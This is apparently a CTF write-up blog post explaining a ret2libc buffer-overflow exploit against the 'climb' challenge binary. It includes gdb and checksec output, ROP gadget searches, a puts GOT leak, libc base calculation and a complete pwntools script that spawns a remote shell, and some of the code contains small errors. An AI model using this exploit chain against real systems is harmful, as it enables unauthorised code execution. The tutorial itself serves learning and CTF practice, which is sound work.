

# Pwn Ret2Libc


Hello pwners !! It's been a long time since the last post. I was unable to continue my series on `Exploitation&Pwning` due to my busy schedule. But anyway I'm here with the `second` post on `Exploitation&Pwning ` series.
<!--more-->

---

# Description

Hello pwners !! It's been a long time since the last post. I was unable to continue my series on `Exploitation&Pwning` due to my busy schedule. But anyway I'm here with the `second` post on `Exploitation&Pwning ` series. You can read my first post of this series [here](https://gr4n173.github.io/hackpacktf). Today I will try to explain about `ret2libc` attack.

## Ret2libc
"Return-to-Libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine i.e. `return address` on a call stack by an `address` of a subroutine that is already present in the process executable memory. Bypassing the `no-execute bit` feature (if present) and getting a shell by injecting the code as required.

In order to be favorable to this attack, attacker can only call pre-existing functions like (puts, read, printf, libcstartmain, etc as per `elf` file).

## Pwn Challenge
### climb
 **Description [396]**
Can you help me climb the rope?

`nc cha.hackpack.club 41702`

**File:** [climb](public/files/climb)

Solution:- As soon as I downloaded and ran the file it displayed with some description as

```bash
root@gr4n173:~$  ./climb
Stranger: Help! I'm stuck down here. Can you help me climb the rope?
How will you respond? 
```
### Protection Mechanism
After this, I grabbed `gdb` and started to check the protection mechanism.

```bash
❯ gdb -q climb
GEF for linux ready, type gef to start, gef config to configure
78 commands loaded for GDB 9.1 using Python engine 3.8
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from climb...
(No debugging symbols found in climb)
gef➤  checksec
[+] checksec for '/home/gr4n173/hackpack/pwn/climbfile/climb'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

As per protection mechanism, `NX(no-executable)` and `RelRO` was enabled so I couldn't write the shellcode but instead I was able to use `got` writable address and get a shell. Likewise `Canary` disable indicated there was buffer overflow.

Let's assume that `ASLR` was also enabled in the server.

```bash
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004004e8  _init
0x0000000000400510  puts@plt
0x0000000000400520  setbuf@plt
0x0000000000400530  system@plt
0x0000000000400540  printf@plt
0x0000000000400550  read@plt
0x0000000000400560  _start
0x0000000000400590  _dl_relocate_static_pie
0x00000000004005a0  deregister_tm_clones
0x00000000004005d0  register_tm_clones
0x0000000000400610  __do_global_dtors_aux
0x0000000000400640  frame_dummy
0x0000000000400647  _init_
0x0000000000400650  _glibc_
0x0000000000400659  _entry1_
0x0000000000400664  call_me
0x000000000040067f  main
0x00000000004006e0  __libc_csu_init
0x0000000000400750  __libc_csu_fini
0x0000000000400754  _fini
```
Here, I noticed a `main` and `call_me` functions. Then disassembled `main` function to see the details.

```bash
gef➤  disass main
Dump of assembler code for function main:
   0x000000000040067f <+0>:     push   rbp
   0x0000000000400680 <+1>:     mov    rbp,rsp
   0x0000000000400683 <+4>:     sub    rsp,0x20
   0x0000000000400687 <+8>:     mov    rax,QWORD PTR [rip+0x2009c2]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x000000000040068e <+15>:    mov    esi,0x0
   0x0000000000400693 <+20>:    mov    rdi,rax
   0x0000000000400696 <+23>:    call   0x400520 <setbuf@plt>
   0x000000000040069b <+28>:    lea    rdi,[rip+0xc6]        # 0x400768
   0x00000000004006a2 <+35>:    call   0x400510 <puts@plt>
   0x00000000004006a7 <+40>:    lea    rdi,[rip+0xff]        # 0x4007ad
   0x00000000004006ae <+47>:    mov    eax,0x0
   0x00000000004006b3 <+52>:    call   0x400540 <printf@plt>
   0x00000000004006b8 <+57>:    lea    rax,[rbp-0x20]
   0x00000000004006bc <+61>:    mov    edx,0x1f4
   0x00000000004006c1 <+66>:    mov    rsi,rax
   0x00000000004006c4 <+69>:    mov    edi,0x0
   0x00000000004006c9 <+74>:    call   0x400550 <read@plt>
   0x00000000004006ce <+79>:    mov    eax,0x0
   0x00000000004006d3 <+84>:    leave  
   0x00000000004006d4 <+85>:    ret    
End of assembler dump.
```
There you can see one variable with buffer of `0x20(32)` and a `read` function which took the 3 register to store the value. `read(0,variable, buffer_size)` as

```bash
   0x00000000004006bc <+61>:    mov    edx,0x1f4 #buffersize of 500
   0x00000000004006c1 <+66>:    mov    rsi,rax   #variable
   0x00000000004006c4 <+69>:    mov    edi,0x0   #0
   0x00000000004006c9 <+74>:    call   0x400550 <read@plt>
```

Result from above indicated there was buffer overflow. So first thing was to find the `offset`. For that, you can visit my first post of `Exploitation&Pwning` series [here](https://gr4n173.github.io/hackpackctf) to know detail about it.

### Overflow the buffer
After finding offset which was`40` bytes. Now I can redirect to anywhere I want. Only I need to do now is to `pop` one of the argument; sequence of arguments in `64 bit` are as `rdi;rsi;rdx;rcx;r8;r9`. Then searched the gadgets related to the poping an arguments as 

```bash
gef➤  ropper --search "pop r?i"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r?i

[INFO] File: /home/gr4n173/climb
0x0000000000400743: pop rdi; ret; 
0x0000000000400741: pop rsi; pop r15; ret;
```
Up to here I overflowed the `buffer` and `pop a argument` so that I can call to any address I want.

Since `binary` had `writable got` address due to the partial protection of `RelRO`  I can point to that address and leak. For that I used the functions which was available in the binary file.

```bash
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004004e8  _init
0x0000000000400510  puts@plt
0x0000000000400520  setbuf@plt
0x0000000000400530  system@plt
0x0000000000400540  printf@plt
0x0000000000400550  read@plt
0x0000000000400560  _start
0x0000000000400590  _dl_relocate_static_pie
0x00000000004005a0  deregister_tm_clones
0x00000000004005d0  register_tm_clones
0x0000000000400610  __do_global_dtors_aux
0x0000000000400640  frame_dummy
0x0000000000400647  _init_
0x0000000000400650  _glibc_
0x0000000000400659  _entry1_
0x0000000000400664  call_me
0x000000000040067f  main
0x00000000004006e0  __libc_csu_init
0x0000000000400750  __libc_csu_fini
0x0000000000400754  _fini
```
Then searched for `got address` .

```bash
gef➤  got

GOT protection: Partial RelRO | GOT functions: 5
 
[0x601018] puts@GLIBC_2.2.5  →  0x7ffff7e54030  #this one
[0x601020] setbuf@GLIBC_2.2.5  →  0x7ffff7e5adb0
[0x601028] system@GLIBC_2.2.5  →  0x400536
[0x601030] printf@GLIBC_2.2.5  →  0x7ffff7e34470
[0x601038] read@GLIBC_2.2.5  →  0x7ffff7ecc5c0
```
Up to this, my payload to leak the address was 

### Leaking the address
```bash
payload = offset + pop_rdi + puts@got + puts@plt
```

**Part1_exploit: -**

```python
#!/bin/python3
# part1exploit.py
from pwn import * # Import pwntools

p= remote('cha.hackpack.club',41702)
#p = process("./climb") # start the vuln binary
elf = ELF("./climb")# Extract data from binary
rop = ROP(elf)# Find ROP gadgets

PUTS_PLT = elf.plt['puts']
PUTS_GOT = elf.got['puts']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]# Same as ROPgadget --binary vuln | grep "pop rdi"

log.info("Puts@plt: " + hex(PUTS))
log.info("Pop rdi gadget: " + hex(POP_RDI))
#Overflow buffer until return address
OFFSET = ("A"*40).encode() #+ "B"*8
# Create rop chain
payload1 = OFFSET
payload1 += p64(POP_RDI) 
payload1 += p64(PUTS_GOT) 
payload1 += p64(PUTS_PLT)

p.sendline(payload1)
p.interactive()

```

**Output** :- 

```python
❯ python3 part1_exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 16 cached gadgets for './climb'
[*] puts@plt: 0x40050c
[*] __libc_start_main: 0x601018
[*] pop rdi gadget: 0x400743
[*] Switching to interactive mode
b'\xc0I\xe7X\xac\x7f'
[*] Got EOF while reading in interactive
```
From the output of `part1 exploit` some `leak` was seen which was random everytime I ran the exploit. So that may be the address leaked. In order to check I tried to `strip` it and then unpacked as 8 bytes data.

### Leaking the address of Puts
```bash
#Parse leaked address
recieved = p.recvline().strip()
#print(recieved)
leak =  u64(recieved.ljust(8,b"\x00"))
#print(leak)
log.info("Leaked libc address, Puts: %s" % hex(leak))
```
Then combining this to my `part1` exploit I got the address leak of `puts`.

**Output:-**

```python
❯ python3 part1_exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 16 cached gadgets for './climb'
[*] puts@plt: 0x40050c
[*] __libc_start_main: 0x601018
[*] pop rdi gadget: 0x400743
[*] Switching to interactive mode
[*] Leaked libc address, Puts: 0x7f6662f2b9c0
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

Hm... Cool,right? By overflowing the buffer, poping the argument, pointing to got and plt of `puts` address I finally leaked address of `puts` from libc.

### Finding version of libc
And another thing was, every time when exploit was run,I got the different address except the last `3 bytes` of the `puts` leaked address remains same. So that helped me to find a version of libc. In order to find the libc verion you can use this website [Find libc version here](https://libc.blukat.me/). By using this, libc verison was shown and file was downloaded.




From above, libc version was `libc6_2.27-3ubuntu1_amd64` and got a shell after buffer was overflowed.

One thing to remember about the address of the function like `system`, `puts`, `printf` etc.,inside the libc is, it just shift the address a bit from the `libc base` address. So by subracting puts leak address with actual address of `puts` from `libc` I got the base address of the libc.

### Getting base address of libc
```bash
libc.address = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(libc.address))
```
**Output: -**

```bash
❯ python3 part1_exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/gr4n173/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 16 cached gadgets for './climb'
[*] puts@plt: 0x40050c
[*] __libc_start_main: 0x601018
[*] pop rdi gadget: 0x400743
[*] rdi: 0x4004fe
[*] Leaked libc address, Puts: 0x7f03f04ea9c0
[*] Base address of libc: 0x7f03f046a000
```

Now with this libc version I found a `system` and `bin/sh` address to get a shell. You can use [one_gadget](https://github.com/david942j/one_gadget) directly to get a shell but I mostly use `system` more to get know knowledge about the address of `system` and `binsh`.

### Address of bin/sh and system
```bash
BINSH = next(libc.search("/bin/sh")) #Verify with find /bin/sh libc6_2.27-3ubuntu1_amd64.so
SYSTEM = libc.sym["system"]

log.info("bin/sh: %s " % hex(BINSH))
log.info("system: %s " % hex(SYSTEM))
```


One thing to notice before this; we have to return to `main` so that we can overflow the function and get a shell. Hence my `part2_exploit` was

```bash
received = p.recvline().strip()
leak =  u64(received.ljust(8,b"\x00"))
log.info("Leaked libc address, Puts: %s" % hex(leak))

libc.address = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(libc.address))

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh: %s " % hex(BINSH))
log.info("system: %s " % hex(SYSTEM))

payload2 = OFFSET 
payload2 += p64(RET) 
payload2 += p64(POP_RDI) 
payload2 += p64(BINSH) 
payload2 += p64(SYSTEM)

p.recvuntil("How will you respond? "))

p.sendline(payload2)
```

In payload2, I used `RET` to make stack 16 bytes aligned by popping off 8 bytes off top of stack and returning to it.

### Pwning a shell
So combining the `part1` and `part2` exploit my final exploit becomes

```python
#!/bin/python
# (combined)exploit.py

from pwn import * # Import pwntools

p= remote('cha.hackpack.club',41702)
#p = process("./climb") 
elf = ELF("./climb")
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")
rop = ROP(elf)# Find ROP gadgets

PUTS_PLT = elf.plt['puts']
MAIN = elf.symbols['main']
PUTS_GOT = elf.got['puts']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]# Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Puts@plt: " + hex(PUTS_PLT))
log.info("Puts@glt : " + hex(PUTS_GOT))
log.info("Pop rdi gadget: " + hex(POP_RDI))
log.info("rdi: " + hex(RET))

#Overflow buffer until return address
OFFSET = ("A"*40).encode() #+ "B"*8

# Create rop chain
payload1 = OFFSET 
payload1 += p64(POP_RDI) 
payload1 += p64(PUTS_GOT) 
payload1 += p64(PUTS_PLT) 
payload1 += p64(MAIN)

#Send our rop-chain payload
p.recvuntil("How will you respond? ")

p.sendline(payload1)

#Parse leaked address
recieved = p.recvline().strip()
leak =  u64(recieved.ljust(8,b"\x00"))
log.info("Leaked libc address, Puts: %s" % hex(leak))

libc.address = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(libc.address))

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh: %s " % hex(BINSH))
log.info("system: %s " % hex(SYSTEM))

payload2 = OFFSET 
payload2 += p64(RET) 
payload2 += p64(POP_RDI) 
payload2 += p64(BINSH) 
payload2 += p64(SYSTEM)

p.recvuntil("How will you respond? "))

p.sendline(payload2)

p.interactive()
```
**Output: -**

```python
❯ python exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/gr4n173/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 16 cached gadgets for './climb'
[*] Puts@plt: 0x40050c
[*] Puts@glt : 0x601018
[*] Pop rdi gadget: 0x400743
[*] rdi: 0x4004fe
[*] Leaked libc address, Puts: 0x7ff0e807a9c0
[*] Base address of libc: 0x7ff0e7ffa000 
[*] bin/sh: 0x7ff0e81ade9a 
[*] system: 0x7ff0e8049440 
[*] Switching to interactive mode
$ ls
climb
flag.txt
$ cat flag.txt
flag{w0w_A_R34L_LiF3_R0pp3r!}
$
```

## Conclusion
In this part of `Exploitation&Pwning` Series here I tried to explain about the `ret2libc` exploit. At first I overflowed the `buffer` and called to `got` address to leak the address of related function. Later I returned back to main so that I can use the overflow function again and get a shell by using `system and binsh` from `libc`.

Stay updated to my blog. I will be posting next writeup soon about `Exploitation&Pwning` series posts. Last but not the least I would like to thank all my readers for staying with me till here.

Feedbacks are really appreciated in the comments below.

Stay safe.

Keep learning.


